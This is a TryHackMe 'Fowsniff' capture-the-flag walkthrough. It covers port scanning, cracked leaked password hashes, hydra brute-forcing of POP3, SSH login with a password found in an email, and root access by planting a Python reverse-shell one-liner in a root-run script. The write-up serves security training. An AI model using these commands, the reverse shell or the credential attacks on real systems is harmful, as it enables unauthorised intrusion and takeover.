 ## Fowsniff_CTF

'export IP=10.10.195.86'

## Hack into the FowSniff organization.
First stage is to do an initial nmap Scan of the IP address given using the nmpa command `nmap -sC -sV -oN nmap/initial $IP`
Once the results from this scan are given which shows that port 80 is open we can do some web enumeration will running a full port scan of the box `nmap -p- -sC -sV -oN nmap/Full $IP`

While that is running we can use gobuster to do a full website `gobuster dir -u http://$IP:80 -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt > gobuster/sitescan`
We can also check out the website and see if that holds any clues manually.

![Fowsniff webpage](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Fowsniff_webpage.PNG)

Looking at the page manually did not give us any information so we can also use Google to search the web which allows us to find a twitter account connected to the corporation with the twitter handle `@Fowsniff` When reading the tweets it shows that there are two pastbins linked which are supposedly the passwords for the corporation
The first paste bin
`https://pastebin.com/NrAqVeeX`
The second paste bin
`https://pastebin.com/378rLnGi`

The first one is more important as it contains usernames and hashes and using crackstation to crack the md5 hashes you get:
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4:mailcall
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo101
tegel@fowsniff:1dc352435fecca338acfd4be10984009:apples01
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb:skyler22
seina@fowsniff:90dc16d47114aa13671c697fd506cf26:scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd:
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11:orlando12
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e:07011972

With the details we have gathered we can then try and bruteforce the pop3 as the pastebin said that the pop3 server was open.
For this we create a user and password files so that they can be used with hydra

`hydra pop3://$IP -L users.txt -P passwords.txt`

![hydra result](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Hydra_Result.PNG)

this shows that we can login with seina and password scoobydoo2

using this information we can then use netcat to connect to the pop3 server to see if we can get any extra information
`nc 10.10.195.86 110`
Once logged in we find there are two emails

![email result](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Email%20Login.PNG)

retrieving email 1

![mail message1](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Email%201.PNG)

Within this email it shows that there is a temporary SSH Password S1ck3nBluff+secureshell

![mail message2](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Email2.PNG)

Looking at the second email it seems nothing important although there is a user-name we have not seen before and that is baksteen.

So using this information we can try and ssh into the box 
`ssh baksteen@$IP` with the password S1ck3nBluff+secureshell
This information allows us to login

![SSH Login](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/SSH_Login.PNG)

we can then use the command `id` to find what groups baksteen belongs to and we find out that he belongs to two different groups users and baksteen so using this information we want to enumarate the box.
`find / -group users -type f 2>/dev/null`
looking at the results there is one file that looks interesting /opt/cube/cube.sh

![Enumeration Results](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/enumeration.PNG)

When using vi on the cube.sh file we find it is the information for the ssh login page as such we could use this to get a reverse shell on the box as this is run by root.

Before we get a revershell we need to know what the box has on it already to run the command the first thing to try is python and python3
running the command `python` tells us that we have python3 installed so we can use python3 to get us a reverse shell using the command from this [pen-test monkey page](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

![Reverse Shell](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/ReverseShell.PNG)

we can then test that this revers shell works by listening on the given port and you should see the following:

![Reverse Shell Test](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/ReverseShellTest.PNG)

Once we confirmed the sell works we want to exit the ssh shell and restart the netcat listener before trying to login in again and once you are then logged in again you should get the following:

![Reverse Shell Root SSH](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/ssh_reverseshell.PNG)

![Reverse Shell Root](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/root_reverseshell.PNG)

Now that we have the reverse shell we can go to roots home folder and find flag.txt.

![Root Flag](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Flag.txt.PNG)
